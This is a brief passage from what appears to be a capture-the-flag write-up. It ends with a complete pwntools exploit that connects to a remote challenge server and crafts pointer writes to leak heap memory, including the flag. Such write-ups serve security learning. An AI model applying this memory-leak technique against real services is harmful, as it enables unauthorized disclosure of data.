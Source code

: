 On server , the contents of only the first argument are hidden so we try to leak them also.
And eventually , it turns out that , the `key_bytes` were nothing but the flag.

Here is the complete exploit.

```py
#!/usr/bin/env python3
from pwn import *
 
r = remote('35.230.128.35', 1337)
magic = 0x6861736822686f6d
 
def read():
    ptr = u64(r.recvn(8))
    data = r.recvn(32)
    print(f'{ptr:x}: {data}')
    return ptr
 
def send(ptr, d0, d1, d2, d3):
    r.send(p64(ptr))
    r.send(p64(d0) + p64(d1) + p64(d2) + p64(d3))
 
reqs = [read() for _ in range(16)]
#Print contents of entire heap eventually printing flag also
send(reqs[0], 0, 0, 0, 0)
read()
send(reqs[1], 0, 0, 0, magic)
read()
send(reqs[0] - 16, 1, reqs[15] - 64 - 3*8, 0, 0)
read()
send(reqs[0], 0, 0, 0, 0)
read()
```









